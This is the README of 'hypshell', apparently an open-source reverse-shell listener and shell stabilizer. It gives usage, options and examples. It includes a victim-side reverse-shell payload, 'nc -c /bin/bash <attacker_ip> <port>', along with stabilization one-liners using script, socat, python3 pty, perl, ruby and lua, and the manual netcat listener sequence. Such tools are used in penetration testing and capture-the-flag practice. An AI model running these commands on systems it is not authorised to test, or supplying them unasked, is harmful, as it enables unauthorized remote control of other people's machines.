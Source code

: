 # hypshell
A simple reverse shell handler and stabilizer

Listens and automates the process of stabilizing a reverse shell 
# Usage
`usage: ./hypshell.py [options] port`

You can run the script on the attacking machine to listen for incoming connections.

Run this payload on the victim to start a reverse shell:
`nc -c /bin/bash <attacker_ip> <port>`

To make the script executable run: `chmod +x hypshell.py`

**NOTE: To exit the program you have to enter "exit" in the shell session even if you can't read the input**
## Options
```
usage: ./hypshell.py [options] port

positional arguments:
  port                  port number

options:
  -h, --help            show this help message and exit
  -m method, --method method
                        stabilize the connection using the specified method (default: script)
  -v, --verbose         verbose mode
  -i interface, --interface interface
                        specify the network interface to use
  -n, --normal          use normal mode instead of alternate screen
  -c, --stabilize       do not stabilize the shell
  -e, --echo            echo input
  -s shell, --shell shell
                        specify the full path of the shell to use (default: /bin/bash)
  -t, --sigint          handle SIGINT signal
  -r, --sigterm         handle SIGTERM signal
  -q, --sigquit         handle SIGQUIT signal
  -x address, --connect address
                        connect to specified address instead of bind
```
### Examples:
Start a reverse shell listener on port 4242:

`hypshell.py 4242`

Handle `^\` to exit the program:

`hypshell.py 4242 -q`

Use normal mode instead of alternative screen:

`hypshell.py 4242 -n`

Don't stabilize the shell and turn input echo on:

`hypshell.py 4242 -se`

Use connect mode and verbose:

`hypshell.py 4242 -vx 127.0.0.1`

Set shell to `/bin/sh` and use python3 PTY stabilization method:

`hypshell.py 4242 -s /bin/sh -m python3`

# Built-in Methods
Feel free to append your own methods to the code.
```shell
script: /usr/bin/script -qc {shell} /dev/null
socat: /usr/bin/socat exec:'{shell} -li',pty,stderr,setsid,sigint,sane tcp-connect
python3: python3 -c 'import pty; pty.spawn("{shell}")'
perl: perl -e 'exec "{shell}";'
ruby: ruby -e 'exec "{shell}";'
lua: lua -e 'os.execute("{shell}")'
echo: echo os.system('{shell}')
```
# Why?
This tool is used to replace a basic reverse shell listener such as netcat or socat,
instead of running:
```shell
nc -lnvp 4242
/usr/bin/script -qc /bin/bash /dev/null
export TERM=xterm
^Z
stty raw -echo
fg
```
You can just run 1 simple command that will do everything for you:
```shell
hypshell.py 4242
```
# License
GPLv3
# TODO
- add more stabilization methods
- rewrite the tool in C and upload binaries
- more
